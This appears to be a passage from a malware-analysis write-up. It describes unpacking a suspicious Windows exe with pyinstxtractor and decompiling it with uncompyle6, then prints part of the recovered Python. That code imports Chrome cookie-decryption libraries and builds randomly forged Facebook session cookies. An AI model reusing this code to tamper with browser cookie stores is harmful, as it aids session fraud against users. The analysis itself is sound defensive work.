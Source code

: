 When I found this, I knew that my thinking was correct, and next I used **pyinstxtractor** to unpack that exe file:

![image](https://github.com/user-attachments/assets/bd9b1f52-b68a-4bfa-acdd-2e0dd1b35210)

Very nice now, and you can see the main function in **main.pyc**, to decrypt content of pyc file, we will use **uncompyle6**: 

```python
import os, json, glob, base64, sqlite3, random, string, subprocess
from datetime import datetime, timedelta
from os import path
import win32crypt
from Crypto.Cipher import AES

def random_string(len, chars=string.ascii_letters + string.digits):
    return "".join((random.choice(chars) for _ in range(len)))


class Cookie:

    def __init__(self, creation_utc=None, host_key=None, top_frame_site_key=None, name=None, value=None, encrypted_value=None, path=None, expires_utc=None, is_secure=None, is_httponly=None, last_access_utc=None, has_expires=None, is_persistent=None, priority=None, samesite=None, source_scheme=None, source_port=None, last_update_utc=None):
        self.creation_utc = creation_utc if creation_utc is not None else int((datetime.now() - datetime(1601, 1, 1)).total_seconds() * 10000000)
        self.host_key = host_key
        self.top_frame_site_key = top_frame_site_key if top_frame_site_key is not None else " "
        self.name = name
        self.value = value if value is not None else " "
        self.encrypted_value = encrypted_value
        self.path = path if path is not None else "/"
        self.expires_utc = expires_utc if expires_utc is not None else int((datetime.now() + timedelta(days=360) - datetime(1601, 1, 1)).total_seconds() * 10000000)
        self.is_secure = is_secure if is_secure is not None else 0
        self.is_httponly = is_httponly if is_httponly is not None else 0
        self.last_access_utc = last_access_utc if last_access_utc is not None else self.creation_utc
        self.has_expires = has_expires if has_expires is not None else 1
        self.is_persistent = is_persistent if is_persistent is not None else 1
        self.priority = priority if priority is not None else 1
        self.samesite = samesite if samesite is not None else 0
        self.source_scheme = source_scheme if source_scheme is not None else 2
        self.source_port = source_port if source_port is not None else 443
        self.last_update_utc = last_update_utc if last_update_utc is not None else self.creation_utc


COOKIE_MAP = {"facebook": [
              Cookie(host_key=".facebook.com", name="c_user", encrypted_value=(str(random.randint(100000000, 999999999)))),
              Cookie(host_key=".facebook.com", name="datr", encrypted_value=(random_string(10) + "-" + random_string(11) + "_S")),
              Cookie(host_key=".facebook.com", name="fr", encrypted_value=(random_string(17) + "." + random_string(27) + "." + random_string(6) + "IE.AAA.0.0." + random_string(6) + "." + random_string(11))),
              Cookie(host_key=".facebook.com", name="ps_l", encrypted_value="0"),
              Cookie(host_key=".facebook.com", name="ps_n", encrypted_value="0"),
              Cookie(host_key=".facebook.com", name="wd", encrypted_value=(random_string(7))),
              Cookie(host_key=".facebook.com", name="xs", encrypted_value=(random_string(len=2, chars=(string.digits)) + "%3A" + random_string(14) + "%3A" + random_string(1, string.digits) + "%3A" + random_string(10, string.digits) + "%3A-1%3A" + random_string(3, string.digits) + "%3A%3A" + random_string(16) + "--" + random_string(16) + "-" + random_string(7)))]}
```